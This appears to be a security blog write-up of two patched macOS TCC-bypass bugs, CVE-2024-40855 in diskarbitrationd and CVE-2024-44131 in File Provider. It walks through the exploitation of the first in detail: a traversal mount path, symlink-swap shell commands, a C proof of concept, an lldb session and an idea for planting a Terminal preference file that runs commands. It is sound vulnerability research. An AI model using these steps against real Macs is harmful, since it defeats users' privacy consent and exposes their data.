

Dreaming of becoming a future Apple picker, I'm back with another macOS vulnerability—this time, a TCC Bypass! 🍏

🔗 **Related post:** [CVE-2024-44175 - macOS `diskarbitrationd` Sandbox Escape](https://hackyboiz.github.io/2024/11/27/clalxk/CVE-2024-44175/)

In my previous post, I covered a vulnerability in the `diskarbitrationd` system daemon that allowed attackers to bypass the sandbox or elevate privileges through filesystem manipulation.

Today, we're diving into **CVE-2024-40855**, another flaw in `diskarbitrationd` that not only **escapes the sandbox** but also allows mounting into the user's **Transparency, Consent, and Control (TCC)** directory. This vulnerability exploits a **Directory Traversal attack** in `diskarbitrationd`.

---

# 1. TCC Bypass?

Transparency, Consent, and Control (TCC) is **Apple's security framework** that governs app permissions for accessing **sensitive user data**. Users can manage these permissions via the `Settings` app.



Ever seen a popup asking, *"Do you want to allow microphone access?"*?

That’s TCC in action—macOS’s **app permission management system**.

A **TCC Bypass** occurs when an attacker gains unauthorized access to sensitive user data (e.g., photos, microphone, location) **without the user’s consent**.

# 2. Vulnerability Overview

### CVE-2024-40855

> A directory traversal vulnerability in diskarbitrationd, a macOS system daemon, allows an attacker to bypass TCC protections by mounting unauthorized paths.
> 

### **Version Information**

macOS : 13.0 ≤ 14.6

### **diskarbitrationd**

The `diskarbitrationd` daemon has three key characteristics:

- Runs **as root**
- Accessible **from within the sandbox**
- Has the **`com.apple.private.security.storage-exempt.heritable`** attribute, effectively granting it **Full Disk Access**

Because of these, Apple implements **strict validation mechanisms** to prevent sandbox escapes and unauthorized mounting to TCC-protected directories.

Sandbox validation includes:

1. **Mount Path Validation**
    - The client-side logic checks for `../` (directory traversal) and ensures **path resolution** does not bypass security checks (e.g., via symlink attacks).
2. **Sandbox Verification**
    - `diskarbitrationd` calls `sandbox_check_by_audit_token` to determine if the requesting process has access to the specified files/directories.
3. **Kernel-Level Mount Validation**
    - The kernel enforces additional restrictions on external mount requests, rejecting any paths containing symbolic links when the `k` option is used.

These three layers of validation are supposed to prevent sandbox escapes and unauthorized TCC access.

### 🔥 Bypassing Client-Side Mount Path Validation

The flaw lies in the **first step**—Mount Path Validation.

This check happens **on the client-side** within Apple’s `DiskArbitration` framework, specifically in the function `DADiskMountWithArgumentsCommon`. An attacker can **completely bypass this validation** by skipping `DiskArbitration` and calling `diskarbitrationd` **directly**.

By doing this, the attacker can:

✅ **Pass a mount path containing `../` elements**

✅ **Bypass sandbox checks**

✅ **Bypass symlink restrictions**

Here’s the relevant part of the `DADiskMountWithArgumentsCommon` function:

```c
__private_extern__ void DADiskMountWithArgumentsCommon( DADiskRef disk,
                               CFURLRef            path,
                               DADiskMountOptions  options,
                               DADiskMountCallback callback,
                               void *              context,
                               CFStringRef         arguments[],
                               bool                block )
{
...
    if ( path )
    {
        char * _path;
        _path = ___CFURLCopyFileSystemRepresentation( path );
        if ( _path )
        {
            char name[MAXPATHLEN];
            if ( realpath( _path, name ) )
            {
                path = CFURLCreateFromFileSystemRepresentation( kCFAllocatorDefault, ( void * ) name, strlen( name ), TRUE );
            }
            else
            {
                CFRetain( path );
            }
            free( _path );
        }
        else
        {
            CFRetain( path );
        }
    }
    status = kDAReturnBadArgument;
    if ( disk )
    {
        status = _DAAuthorize( _DADiskGetSession( disk ), _kDAAuthorizeOptionIsOwner, disk, _kDAAuthorizeRightMount );
        if ( status == kDAReturnSuccess )
        {
            status = __DAQueueRequest( _DADiskGetSession( disk ), _kDADiskMount, disk, options, path ? CFURLGetString( path ) : NULL, argument, callback, context, block );
        }
    }
...
}

```

In the code above, the `realpath` and `CFURLCreateFromFileSystemRepresentation` function calls are responsible for stripping `../` elements. However, since this validation occurs on the client side, an attacker can completely bypass it by calling `diskarbitrationd` directly. By skipping the `DiskArbitration` framework and passing a path containing `../` elements directly to `diskarbitrationd`, it becomes possible to evade sandbox restrictions and mount a TCC-protected directory.

These functions sanitize paths **only on the client side**. If an attacker **calls `diskarbitrationd` directly**, they can inject a `../` traversal attack **before validation occurs**.

### Explain 1 : Mounting `~/Library/Application Support/com.apple.TCC`

Let's walk through how to exploit this vulnerability to mount the user's **TCC directory** and modify `TCC.db`.

**Step 1: Call `DAMount` with a Traversal Path**

```bash
/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC
```

We provide a crafted path with `../` elements.

⚠️ **Key Trick:** Ensure the client does not interpret the path before it reaches `diskarbitrationd`.

**Step 2: Manipulate Symlinks During `sandbox_check_by_audit_token` Execution**

1️⃣ Create a symbolic link

```bash
/private/tmp/starthere -> /private/tmp/1/2/3
```

2️⃣ When `sandbox_check_by_audit_token` checks the path, the following **unexpected transformation** occurs:

```bash
/private/tmp/Users/crab/Library/Application Support/com.apple.TCC
```

3️⃣ Next, create a directory structure that **mimics** the expected validation path:

```bash
/private/tmp/1/2/3/../../../Users/crab/Library/Application Support/com.apple.TCC
/private/tmp/Users/crab/Library/Application Support/com.apple.TCC
```

As a result, this path is allowed to be mounted inside `/private/tmp/`, enabling it to pass security checks.

**3. Remove the Symbolic Link and Execute the Mount**

```bash
/private/tmp/**starthere**/../../../Users/crab/Library/Application Support/com.apple.TCC
```

Once the `sandbox_check_by_audit_token` check is complete, delete the symbolic link and replace it with an empty directory. After that, `diskarbitrationd` will execute the external mount command again, using the same path as before.

```bash
/Users/crab/Library/Application Support/com.apple.TCC
```

However, this time, `starthere` is a **directory** instead of a **symbolic link**, meaning the final transformation remains the same as before.

Since the path no longer contains a symbolic link, the **kernel will process it as a regular path**. Moreover, because the calling process is `diskarbitrationd`, which possesses the `com.apple.private.security.storage-exempt.heritable` privilege, it is able to **bypass the kernel's Mandatory Access Control Framework (MACF) Sandbox checks**. As a result, this method works even within the sandbox.

**4. TCC Bypass and Sandbox Escape**

By following **steps 1–3**, you can successfully perform a **TCC Bypass**.

To further **escape the sandbox**, you can **mount the `~/Library/Preferences` directory** using a similar technique. By doing so, you can place a custom Terminal preference file that **automatically executes specific commands** when Terminal is opened.

In essence, this vulnerability is a **Time of Check to Time of Use (TOCTOU) bug**, functioning similarly to the vulnerability described in [a previous post](https://hackyboiz.github.io/2024/11/27/clalxk/CVE-2024-44175/).

---

### Explain 2

Let’s replicate **Explain 1** using a debugger.

```c
#import <DiskArbitration/DiskArbitration.h>
#import <Foundation/Foundation.h>

int main(void) {
    DASessionRef session = DASessionCreate(kCFAllocatorDefault);
    DADiskRef disk = DADiskCreateFromBSDName(kCFAllocatorDefault, session, "/dev/disk6s1");
    CFDictionaryRef properties;
    CFURLRef diskurl = (__bridge CFURLRef)[NSURL fileURLWithPath:@"/dev/disk6s1"];
    CFURLRef url = (__bridge CFURLRef)[NSURL fileURLWithPath:@"/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC"];
    DADiskMount(disk, url, kDADiskMountOptionDefault, NULL, NULL);
    return 0;
}
```

The code above attempts to mount a disk at the path:

`/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC`.

Compile the code, start debugging using `lldb`, and set the following breakpoints:

```bash
(lldb) breakpoint list
Current breakpoints:
1: name = 'realpath', locations = 1, resolved = 1, hit count = 0
  1.1: where = libsystem_c.dylib`realpath, address = 0x00000001921de874, resolved, hit count = 0 
2: name = 'DADiskMountWithArgumentsCommon', locations = 1, resolved = 1, hit count = 1
  2.1: where = DiskArbitration`DADiskMountWithArgumentsCommon, address = 0x000000019a1bdb48, resolved, hit count = 1 
3: address = DiskArbitration[0x0000000188325c1c], locations = 1, resolved = 1, hit count = 1
  3.1: where = DiskArbitration`DADiskMountWithArgumentsCommon + 212, address = 0x000000019a1bdc1c, resolved, hit count = 1 
4: name = '__DAQueueRequest', locations = 1, resolved = 1, hit count = 1
  4.1: where = DiskArbitration`__DAQueueRequest, address = 0x000000019a1bcde0, resolved, hit count = 1 
```

Attach `lldb` to the `diskarbitrationd` process and set a breakpoint for `sandbox_check_by_audit_token`:

```
(lldb) breakpoint list
Current breakpoints:
2: name = 'sandbox_check_by_audit_token', locations = 1, resolved = 1, hit count = 4
  2.1: where = libsystem_sandbox.dylib`sandbox_check_by_audit_token, address = 0x000000019d5a61cc, resolved, hit count = 4 
```

Prepare the required **symbolic links and directories**:

```
ln -s /private/tmp/deep/1/2 /private/tmp/starthere
mkdir -p "/private/tmp/Users/crab/Library/Application Support/com.apple.TCC/"
```

---

**Debugging with LLDB After Execution**

1. Run the program and reach a breakpoint

```
(lldb) run
Process 1591 launched: '/Users/crab/m' (arm64)
Process 1591 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 2.1
```

2. Perform a memory dump on the address pointed to by the `X1` register

```
(lldb) memory read -f p $x1
0x600000024060: 0x01000001fa131911 0x0001cc4fc6001d80 0x0800010060015821 0x0000600000f24000
```

3. Verify the path string

```
(lldb) memory read -f s 0x0000600000f24000+16
0x600000f24010: "^file:///private/tmp/starthere/../../../Users/crab/Library/Application%20Support/com.apple.TCC/"
```

4. Stop at the `__DAQueueRequest` breakpoint and check the value of the `X4` register

```
(lldb) register read $x4
      x4 = 0x0000600000020000
```

5. Verify the path string

```
(lldb) memory read -f s $x4+16
0x600000020010: "Kfile:///private/tmp/Users/crab/Library/Application%20Support/com.apple.TCC/"
```

6. Overwrite the `X4` register with the original path value

```
(lldb) register write $x4 0x0000600000f24000
(lldb) c
Process 1606 resuming
```

---

7. The `diskarbitrationd` process stops at the `sandbox_check_by_audit_token` breakpoint.

```
(lldb) c
Process 113 resuming
Process 113 stopped
* thread #2, queue = 'DAServer', stop reason = breakpoint 2.1
```

8. Verify that the path remains unchanged via memory dump

```
(lldb) memory read -f s 0x000000014ea0cc90
0x14ea0cc90: "/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC"
```

9. Check the return value after calling `sandbox_check_by_audit_token`.

```
(lldb) finish
(lldb) register read $x0
      x0 = 0x0000000000000000
```

Since `sandbox_check_by_audit_token` returns `0`, the check is passed.

10. Replace `starthere` with a directory, run `diskarbitrationd`, and verify the mount result

```
crab@see /tmp % rm starthere
crab@see /tmp % mkdir starthere

(lldb) c

crab@see /tmp % mount
...
/dev/disk6s1 on /Users/crab/Library/Application Support/com.apple.TCC (apfs, local, nodev, nosuid, journaled, noowners, mounted by crab)
```

## Patch Notes

Apple has fixed this vulnerability in macOS Sequoia 15.0.

```c
if ( mntpath )
{
    if ( ( _argument1 & kDADiskMountOptionNoFollow ) == 0 )
    {
        if ( realpath( mntpath, path ) )
        {
            CFTypeRef mountpath = CFURLCreateFromFileSystemRepresentation( kCFAllocatorDefault, ( void * ) path, strlen( path ), TRUE );
            if ( mountpath )
            {
                DARequestSetArgument2( request, CFURLGetString( mountpath ) );
                CFRelease ( mountpath );
            }
        }
        else
        {
            status = kDAReturnBadArgument;
        }
    }
}
```

They now perform path resolution within `diskarbitrationd` when handling requests instead of relying on the client side. This prevents attackers from injecting paths containing `../` elements while maintaining the expected behavior for legitimate callers.

However, this validation logic is only applied if the `kDADiskMountOptionNoFollow` flag is **not** provided. If an attacker explicitly sets `kDADiskMountOptionNoFollow`, the original attack would still be possible.

To fully mitigate this, Apple made an additional change to `sandbox_check_by_audit_token`:

```c
status = sandbox_check_by_audit_token(_token, "file-mount", SANDBOX_FILTER_PATH | SANDBOX_CHECK_ALLOW_APPROVAL | SANDBOX_CHECK_CANONICAL, path);
```

The `SANDBOX_CHECK_CANONICAL` option was added to the validation process. With this, the sandbox check now **automatically fails** if the path contains symbolic links or directory traversal elements (`../`). This allows the system to block the attack at an earlier stage.

# 3. Other Types of TCC Bypass Vulnerabilities


### CVE-2024-44131

> This is a TCC bypass vulnerability in File Provider, an extension that allows users to access files and folders synchronized with remote storage (such as iCloud) on macOS and iOS. The vulnerability arises due to a symlink validation flaw when the Files app and the fileproviderd system process handle file operations.
> 

### **Version Information**

macOS : 5.3 ≤ 14.7

### File Provider?

A **File Provider** is an extension that allows other apps to access files and folders synchronized with remote storage.

macOS and iOS use the **Transparency, Consent, and Control (TCC)** mechanism to notify users when an application attempts to access sensitive information—such as **photos, GPS location, contacts, etc.**—and allows them to approve or deny the request.

[Apple Documentation on File Provider](https://developer.apple.com/documentation/fileprovider)

The vulnerability exploits a **symlink attack** targeting the **Files app** and the **`fileproviderd` system process**.

### **Key Components Involved in the Attack**

📁 **Files.app**

The default file explorer on iOS and macOS. It allows users to browse and manage files in iCloud Drive, local storage, external storage devices, and third-party cloud services (e.g., Google Drive, Dropbox).

⚙️ **fileproviderd**

A system process in macOS and iOS that manages the **File Provider** extension. It plays a crucial role in handling file synchronization and access between the Files app and cloud storage.

### **How the Attack Works**

When a user moves or copies a file using **Files.app**, a malicious app running in the background can intercept and manipulate the operation. The attacker **exploits the high privileges of `fileproviderd`** to interfere with file operations **without triggering a TCC prompt (permission request window).**

Typically, mitigation techniques prevent attackers from exploiting **symlink race conditions** or **path traversal attacks** when privileged processes copy, move, or delete files. Most file operation APIs include checks to **verify whether the source or destination is a symlink** and are designed to abort the operation if a symlink is detected.

However, in this vulnerability, attackers **bypass the existing checks** by inserting a symlink **one directory level above** the target file **midway through the operation**, instead of placing a symlink directly at the final file path **before** the operation starts.

### **Comparison of Traditional vs. New Symlink Attack Techniques**


**Traditional Symlink Attack**

- Attackers place a **symlink at the final file or directory level**.
- Security validation detects the symlink and blocks the attack.


**CVE-2024-44131 Symlink Attack**

- Attackers insert a **symlink at the parent directory level** *after* the file copy has started.
- Since **previous checks only validated the final file/directory name**, this approach **bypasses the security check** by altering the path mid-operation.
- As a result, attackers can **hijack files without triggering a TCC prompt** or **copy files that require special privileges**.

### **Paths Accessible by `fileproviderd`**


📍 **Key Target Path** `/var/mobile/Library/Application Support/FileProvider/AccessControl.db` This database stores a list of apps that have interacted with the Files app and the file system. Attackers can potentially exploit it for unauthorized access.


### **Examples of Sensitive Data Paths**

1. **Apple Pages backup documents**
    
    📂 `/var/mobile/Library/Mobile Documents/com~apple~Pages`
    
2. **Files manually saved to iCloud Drive (including Downloads)**
    
    📂 `/var/mobile/Library/Mobile Documents/com~apple~CloudDocs`
    
3. **WhatsApp backup data**
    
    📂 `/var/mobile/Library/Mobile Documents/57T9237FN3~net~whatsapp~WhatsApp`
    
    (*This path uses a fixed identifier instead of a UUID, making it predictable for attackers.*)
    

By exploiting this vulnerability, attackers can access and exfiltrate **iCloud backup data** belonging to both first-party and third-party apps. They can do this by **copying, moving, or deleting** files and directories under the main target data path: 📂 **`/var/mobile/Library/Mobile Documents/`**

---

### Ref

https://www.jamf.com/blog/tcc-bypass-steals-data-from-icloud/

https://zeroclick.sh/blog/macos-tcc/

https://www.cyberlibrary.fr/en/docs/old/macos-tcc-bypasses

https://eclecticlight.co/2023/02/10/privacy-what-tcc-does-and-doesnt/

https://www.kandji.io/blog/macos-audit-story-part2